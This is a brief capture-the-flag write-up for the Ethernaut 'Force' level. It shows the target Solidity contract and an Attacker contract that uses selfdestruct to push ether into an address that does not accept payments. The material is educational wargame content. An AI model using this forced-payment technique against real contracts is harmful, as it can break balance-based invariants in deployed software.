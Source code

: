 # [7. Force](https://ethernaut.openzeppelin.com/level/0x22699e6AdD7159C3C385bf4d7e1C647ddB3a99ea)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

This contract is supposedly not accepting any payments. Well, it is possible to force money into a contract by `selfdestruct`'ing a contract with some balance, with the target contract address as the parameter. We deploy the contract below with some small amount of ether, and then call the `pwn` function to let it `selfdestruct` and transfer all of its balance to the target contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attacker {
  function pwn(address _target) payable public {
    selfdestruct(payable(_target));
  }
}
```

